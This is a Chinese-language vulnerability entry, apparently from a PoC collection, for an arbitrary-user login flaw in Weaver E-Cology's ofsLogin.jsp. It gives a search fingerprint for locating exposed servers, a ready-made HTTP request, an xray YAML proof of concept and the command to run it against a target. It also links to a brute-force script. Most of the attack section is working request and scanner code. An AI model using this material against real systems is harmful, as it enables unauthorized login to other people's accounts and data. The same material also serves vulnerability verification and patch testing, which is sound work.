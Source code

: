 # 泛微OA E-Cology ofsLogin.jsp 前台任意用户登录漏洞
## 漏洞描述

由于系统未对系统接口的响应进行合理的处理，导致该系统会泄漏已注册用户信息，攻击者可利用信息泄露漏洞获取注册用户的信息。另外由于系统使用了不当的算法设计，导致攻击者可模拟任意用户登录系统。

## 影响版本
```
部分 e-cology9 且补丁版本 < 10.57
```

## 网络测绘
```
body="qrcode_wev8.png"
```

## 环境搭建

-
## 漏洞复现

![image.png](https://cdn.jsdelivr.net/gh/klearcc/pic/img202309201518310.png)
## 数据包
```
GET /mobile/plugin/1/ofsLogin.jsp?gopage=3&loginTokenFromThird=&receiver=test&syscode=syscode&timestamp=2&%7B%22key%22%3A+%22value%22%7D= HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0

```

## YAML代码
```
name: poc-yaml-ecology-ofslogin-everyonelogin
manual: true
transport: http
rules:
  r0:
    request:
      cache: true
      method: GET
      path: /mobile/plugin/1/ofsLogin.jsp?syscode=syscode&timestamp=2&gopage=3&receiver=test&loginTokenFromThird=
    expression: response.status == 200 && response.body.bcontains(b'/login/Login.jsp') && response.body.bcontains(b'location.replace')
expression: r0()
detail:
  author: klear
  links:
    - https://github.com/A0WaQ4/Weaver_ofslogin_vul/blob/main/ecology_ofsLogin_brute.py
    - https://stack.chaitin.com/techblog/detail?id=90

```

## xray调用

```
xraypro ws --poc poc-yaml-ecology-ofsLogin-everyoneLogin.yml --url xx.xx.xx.xx
```

![image.png](https://cdn.jsdelivr.net/gh/klearcc/pic/img202309201521606.png)
